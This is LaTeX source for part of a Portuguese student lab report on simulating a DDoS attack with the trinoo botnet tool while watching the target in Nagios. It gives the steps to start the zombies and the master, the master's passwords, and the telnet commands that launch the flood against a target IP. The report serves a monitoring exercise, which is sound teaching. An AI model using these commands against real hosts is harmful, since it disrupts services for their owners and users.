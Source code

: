 \documentclass[10pt,a4paper]{article}
\newcommand{\Nagios}{\textit{Nagios}}
\newcommand{\trinoo}{\textit{trinoo}}
\newcommand{\cbox}[1]
{
	\setlength\fboxrule{1pt}
	\begin{alltt}\fbox{#1}\end{alltt}
	\setlength\fboxrule{0.5pt}
}
\begin{document}
Então cada zumbi terá de ser iniciado executando o cliente \trinoo\ no computador:

\cbox{\$\ client/client}

Para se iniciar o \trinoo\ mestre:

\begin{verbatim}
$ master/master
?? g0rave
\end{verbatim}

Agora, no computador com o mestre, lance o ataque:

\begin{verbatim}
$ telnet <ip-do-mestre> 27665
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
betaalmostdone
mtimer <tempo-do-ataque>
dos <ip-do-alvo>
\end{verbatim}

Neste momento os zumbis devem começar o ataque ao IP do alvo, o que deve ser identificado através
do monitoramento do \Nagios.


\section{Conclusões}

Através dos experimentos da Seção \ref{sec:experimentos} pudemos simular uma pequena rede de
computadores zumbis executando um ataque coordenado do tipo DDoS em um host. O host estava sendo
monitorado através do programa \Nagios\ de forma a fornecer informações de desempenho, carga no
sistema e possíveis falhas no serviço, que são úteis para tarefas gerenciais, administrativas,
de segurança e de escalabilidade.

Os zumbis foram criados usando o programa \trinoo, que é um software malicioso criado para gerar
ataques DDoS a um determinado alvo ao comando de um mestre. Esse ataque foi orquestrado para
tentar desestabilizar os serviços do host-alvo, o que foi detectado através do \Nagios.

Com este trabalho o grupo teve a oportunidade de aprender a usar uma ferramenta de Gerenciamento
de Redes de Computadores, adquirindo novos conhecimentos. Contudo, por falta de tempo a prática
ficou restrita ao planejamento, que foi efetuado com sucesso e em detalhes. A execução dos planos,
portanto, não foi feita para comparar os resultados esperados com os reais. Mesmo assim acreditamos
que muito foi aprendido através deste trabalho.


\section{Referências}
\end{document}
